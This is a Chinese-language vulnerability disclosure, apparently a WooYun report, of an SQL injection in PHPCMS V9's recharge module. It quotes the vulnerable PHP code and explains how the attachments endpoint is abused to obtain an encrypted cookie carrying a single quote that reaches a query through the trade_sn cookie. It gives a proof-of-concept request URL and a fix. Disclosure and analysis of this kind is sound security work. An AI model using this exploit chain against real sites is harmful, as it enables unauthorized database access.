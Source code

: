 ## **WooYun-2013-24984：PHPCMS最新版(V9)SQL注入一枚**

## **詳細說明**
存在於在線充值功能，直接上程式碼分析，建議先看漏洞證明。

```php
/phpcms/phpcms/modules/pay/deposit.php //96行起的pay_recharge方法

...

$trade_sn    = param::get_cookie('trade_sn'); //約110行位置，如果可以控制$trade_sn，即可注入，事實自然是可以的

            $usernote = $_POST['info']['usernote'] ? $_POST['info']['name'].'['.$trade_sn.']'.'-'.new_html_special_chars(trim($_POST['info']['usernote'])) : $_POST['info']['name'].'['.$trade_sn.']';

            $surplus = array(

                    'userid'      => $this->_userid,

                    'username'    => $this->_username,

                    'money'       => trim(floatval($_POST['info']['price'])),

                    'quantity'    => $_POST['quantity'] ? trim(intval($_POST['quantity'])) : 1,

                    'telephone'   => preg_match('/[0-9\-]+/', $_POST['info']['telephone']) ? trim($_POST['info']['telephone']) : '',

                    'contactname' => $_POST['info']['name'] ? trim($_POST['info']['name']).L('recharge') : $this->_username.L('recharge'),

                    'email'       => is_email($_POST['info']['email']) ? trim($_POST['info']['email']) : '',

                    'addtime'      => SYS_TIME,

                    'ip'          => ip(),

                    'pay_type'      => 'recharge',

                    'pay_id'      => $payment['pay_id'],        

                    'payment'     => trim($payment['pay_name']),

                    'ispay'          => '1',

                    'usernote'    => $usernote,

                    'trade_sn'      => $trade_sn,

            );

            $recordid = $this->handle->set_record($surplus); //這裡，沒有對$trade_sn進行處理 接下來看set_record方法

			///phpcms/phpcms/modules/pay/classes/pay_deposit.class.php 12行起

    /**

     * 生成流水紀錄

     * @param unknown_type 

     */

    public function set_record($data){

        $require_items = array('userid','username','email','contactname','telephone','trade_sn','money','quantity','addtime','paytime','usernote','usernote','pay_type','pay_id','payment','ip','status');

        if(is_array($data)) 
        {

            foreach($data as $key=>$item) 
            {

                if(in_array($key,$require_items)) $info[$key] = $item;

            }            

        } 
        else 
        {

            return false;

        }

        $trade_exist = $this->account_db->get_one(array('trade_sn'=>$info['trade_sn']));  //這裡

        if($trade_exist) return $trade_exist['id'];

        $this->account_db->insert($info); //還有這裡

        return $this->account_db->insert_id();

    }
```

關鍵是控制$trade_sn的值，看param::get_cookie和param::set_cookie方法

```php
/phpcms/phpcms/libs/classes/param.class.php

    public static function set_cookie($var, $value = '', $time = 0) 
    {

        $time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);

        $s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;

        $var = pc_base::load_config('system','cookie_pre').$var;

        $_COOKIE[$var] = $value;

        if (is_array($value)) 
        {

            foreach($value as $k=>$v) 
            {

                setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);

            }

        } 
        else 
        {

            setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);  
            //cookie加密了，而且方法很給力,sys_auth是有auth_key的，基本上可以說破解這個值不容易

        }

    }

......

    public static function get_cookie($var, $default = '') 
    {

        $var = pc_base::load_config('system','cookie_pre').$var;

        return isset($_COOKIE[$var]) ? sys_auth($_COOKIE[$var], 'DECODE') : $default; //這裡是解密方法，咱也用不上

    }
```
![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.4/6.4-1.png)

看來想自己更改cookie值很難，不知道加密的auth_key值嘛，
<p>
可是...如果利用一個能set_cookie($value)的點，
<p>
並且咱們能控制$value？這個點自然是有的～

```php
/phpcms/phpcms/modules/attachment/attachments.php 228行起

    public function swfupload_json() 
    {

        $arr['aid'] = intval($_GET['aid']);  //這個不行,intval了

        $arr['src'] = trim($_GET['src']); //這個可以,雖然$_GET會addslashes，但下面的json_encode會幫上忙（此時' => \'，這裡是一個反斜線 ）

        $arr['filename'] = urlencode($_GET['filename']); //這個不行,urlencode了

        $json_str = json_encode($arr); //(此時 \' => \\' 這裡是兩個反斜線)所以單引號可以用了

        $att_arr_exist = param::get_cookie('att_json');

        $att_arr_exist_tmp = explode('||', $att_arr_exist);

        if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) 
        {

            return true;

        } 
        else 
        {

            $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;

            param::set_cookie('att_json',$json_str); //這裡

            return true;            

        }

    }
```

## **漏洞證明**

<pre>
1.在COOKIE att_json為空時（當然可以手動清空），訪問以下鏈接生成att_json

http://localhost/test/phpcms/index.php?m=attachment&c=attachments&a=swfupload_json&src=1%27&filename=a%27 （當然，你可以乾點別的）

2.提交在線充值時，更改COOKIE trade_sn為att_json的值
</pre>

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.4/6.4-2.png)

---


![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/6/6.4/6.4-3.png)

## **修復方案**


**對$trade_sn進行addslashes**